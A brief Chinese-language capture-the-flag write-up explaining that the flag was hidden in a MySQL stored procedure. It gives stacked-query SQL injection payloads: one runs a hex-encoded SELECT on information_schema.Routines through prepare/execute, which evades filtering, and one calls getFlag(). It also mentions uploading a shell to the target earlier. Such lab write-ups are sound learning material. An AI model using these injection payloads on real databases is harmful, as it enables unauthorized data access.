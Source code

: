# 知识点
### 查看MySQL的存储过程
[MySQL——查看存储过程和函数](https://blog.csdn.net/qq_41573234/article/details/80411079)
# 思路
上传shell找遍了，也没找到flag<br />看别人博客说是考查看MySQL的存储过程
> 在  MySQL 中，存储过程和函数的信息存储在  information_schema  数据库下的  Routines  表中，可以通过查询该表的记录来查询存储过程和函数的信息

```plsql
';prepare h from 0x53454c454354202a2046524f4d20696e666f726d6174696f6e5f736368656d612e526f7574696e6573;execute h;--+
# SELECT * FROM information_schema.Routines
'; call getFlag();--+
```
![image.png](./images/20231017_2352041640.png)<br />![image.png](./images/20231017_2352047118.png)

